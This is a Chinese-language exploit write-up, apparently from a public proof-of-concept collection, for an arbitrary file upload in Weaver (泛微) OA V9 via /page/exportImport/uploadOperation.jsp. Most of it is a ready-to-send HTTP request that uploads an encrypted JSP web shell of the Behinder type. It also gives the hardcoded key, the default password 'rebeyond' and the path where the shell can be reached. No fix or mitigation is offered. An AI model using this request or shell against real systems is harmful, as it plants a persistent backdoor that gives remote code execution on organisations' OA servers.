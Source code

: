 # 泛微OA uploadOperation.jsp 任意文件上传

# 泛微OA uploadOperation.jsp 任意文件上传

## 漏洞描述

```
泛微OA V9 存在文件上传接口导致任意文件上传
```

## 漏洞影响

```
泛微OA V9
```

## 漏洞复现

漏洞位于: /page/exportImport/uploadOperation.jsp文件中

Jsp流程大概是:判断请求是否是multipart请求,然就没有了,直接上传了,啊哈哈哈哈哈

重点关注File file=new File(savepath+filename),

Filename参数,是前台可控的,并且没有做任何过滤限制

![image-20220209104105593](/images/202202091041790.png)

利用非常简单,只要对着

/page/exportImport/uploadOperation.jsp

来一个multipartRequest就可以

![image-20220209104135755](/images/202202091041826.png)

然后请求 然后请求路径:

page/exportImport/fileTransfer/1.jsp

![image-20220209104201442](/images/202202091042495.png)

请求包

```bash
POST /page/exportImport/uploadOperation.jsp HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 397
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36 Edg/89.0.774.68
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6XgyjB6SeCArD3Hc
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
dnt: 1
x-forwarded-for: 127.0.0.1
Connection: close

------WebKitFormBoundary6XgyjB6SeCArD3Hc
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
------WebKitFormBoundary6XgyjB6SeCArD3Hc--
```

地址: /page/exportImport/fileTransfer/test.jsp

默认密码 rebeyond


